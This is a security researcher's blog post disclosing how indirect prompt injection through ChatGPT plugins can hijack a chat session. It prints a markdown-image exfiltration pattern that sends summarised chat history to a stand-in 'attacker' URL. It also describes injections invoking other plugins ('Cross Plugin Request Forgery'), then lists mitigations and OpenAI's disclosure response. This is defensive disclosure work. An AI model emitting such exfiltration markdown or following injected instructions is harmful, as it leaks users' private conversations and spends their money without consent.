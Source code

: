 ```yaml
---
title: "ChatGPT Plugins: Data Exfiltration via Images & Cross Plugin Request Forgery"
date: 2023-05-16T07:45:38-07:00
tags: [
     "aiml", "machine learning","red", "threats", "ai injections"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "ChatGPT: Data Exfiltration via Plugins and Markdown Injection"
  description: "Plugins can return malicious content and hijack your AI."
  image: "https://embracethered.com/blog/images/2023/hacker-white.jpg"
---
```


This post shows how a malicious website can take control of a ChatGPT chat session and exfiltrate the history of the conversation.

## Plugins, Tools and Integrations

With plugins, data exfiltration can happen by sending too much data into the plugin in the first place. More security controls and insights on what is being sent to the plugin are required to empower users.

**However, this post is not about sending too much data to a plugin, but about a malicious actor who controls the data a plugin retrieves**.

### Untrusted Data and Markdown Injection

The individual controlling the data a plugin retrieves can exfiltrate chat history due to ChatGPT's rendering of markdown images. 

Basically, if the LLM returns a markdown image in the form of

```
![data exfiltration in progress](https://attacker/q=*exfil_data*)
```

ChatGPT will render it automatically and retrieve the URL. During an Indirect Prompt Injection the adversary controls what the LLM is doing (I call it AI Injection for a reason), and it can ask to summarize the past history of the chat and append it to the URL to exfiltrate the data.

I'm not the only one who points this out, [Roman Samoilenko has observed and posted about this vulnerability in ChatGPT before](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2). Roman found it March 14th. I ran across it separatley but a few weeks after.

### Proof of Concept Demonstration

This is possible with plugins, e.g. via the `WebPilot Plugin` or check out the [YouTube Transcript Plugin Injection](/blog/posts/2023/chatgpt-plugin-youtube-indirect-prompt-injection/) I posted about the other day. 

The LLM's response can contain markdown (or instruct the AI to build it on the fly), summarize the past conversation, URL encode that summary and append that as query parameter. And off it goes to the attacker.

Here is how this looks in action:

[![Data exfiltration in progress](/blog/images/2023/ai-exfil-progress.png)](/blog/images/2023/ai-exfil-progress.png)

The text that is being exfiltrated including "TooManySecrets123" is something that was written earlier in the chat conversation.

And here is an end to end video POC:

{{< youtube PIY5ZVktiGs >}}


Feel free to skip forward in the middle section - it's a bit slow. 

But wait, there is more....

### Can an attacker call another Plugin during the injection?

**Short answer is yes.** 

**This is an interesting variant of `Cross Site Request Forgery` actually, but we will need a new name for it, maybe `Cross Plugin Request Forgery`.**

Here is an example of an Indirect Prompt Injection calling another plugin (Expedia) to look for flights:

[![AI Injections searches for flights](/blog/images/2023/ai-injection-call-plugin.png)](/blog/images/2023/ai-injection-call-plugin.png)

Yes, random webpages and comments on sites will soon hijack your AI and spend your money.

## Mitigations and Suggestions

Safe AI assistants would be really awesome to have, the power of ChatGPT is amazing! So what could be done to improve the security posture? 

- Its unclear why a plugins have access to the history of the conversation. This could be isolated. It would be better if plugins go off do their work, rather then giving it access to the entire conversation history, or allow invoking other plugins.
- A security contract for plugins is needed. Who is responsible for what? What data is sent to the plugin? Currently there is no defined or enforced schema that could help mitigate such problems. Open AI mentions **Human in the loop** as a [core safety best practice](https://platform.openai.com/docs/guides/safety-best-practices), but end-users have little to no control at the moment once they start using them.
- In fact the idea of having some sort of **kernel LLM** and other sandbox LLM is discussed by [Simon Willison, who has thought about this already in a lot more detail](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/).
- NVIDIA has been working on [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/) to help keep bots in check
- Scenarios like rendering images could be implemented as a dedicated feature, rather than depending on the convenience of markdown. (e.g. links being returned that are not injected into the chat context, but as references after the main message).
- Only point Plugins to data you fully trust. 

A lot more research is needed, both from offensive and defensive side. And at this point, with the speed of adoption and new tools being released it seems that raising awareness to have more smart people look into this (and how to fix it) is the best we can do.

## Conclusion

With the advent of plugins Indirect Prompt Injections are now a reality within ChatGPT's ecosystem. As attacks evolve we will probably learn and see nefarious text and instructions on websites, blog posts, comments,.. to attempt to take control of your AI.

### Responsible Disclosure

I first disclosed the image markdown injection issue to Open AI on April, 9th 2023. 

After some back and forth, and highlighting that plugins will allow to exploit this remotely, I was informed that image markdown injection is a feature:

> "The issue you've described is a feature of our system, and we don't believe that there is any practical way to exploit markdown rendering based on other security controls we have put in place. We'd like our users to be able to retrieve images and render markdown to use within chatGPT and other products, so we don't plan on changing any implementation at this time to protect against self-XSS or similar low-risk threats."


## References

* [Roman Samoilenko - New prompt injection attack on ChatGPT web version. Markdown images can steal your chat data.](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2)
* [Open AI Safety Best Practices](https://platform.openai.com/docs/guides/safety-best-practices)
* [Dual LLM pattern](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/)
* [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/)
